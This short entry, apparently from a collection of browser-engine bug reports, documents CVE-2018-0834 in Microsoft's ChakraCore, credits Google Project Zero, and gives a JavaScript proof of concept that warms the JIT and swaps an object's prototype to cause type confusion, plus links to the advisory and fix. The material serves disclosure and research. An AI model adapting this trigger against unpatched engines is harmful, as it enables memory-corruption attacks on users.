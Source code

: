 # CVE-2018-0834

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, proto) {
    arr[0] = 1.1;
    let tmp = {__proto__: proto};
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 10000; i++) {
        opt(arr, {});
    }

    opt(arr, arr);
    print(arr);

}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0834)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1455)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/6cd503299eac4a5b5ffc0c5bb0d072861f60e183)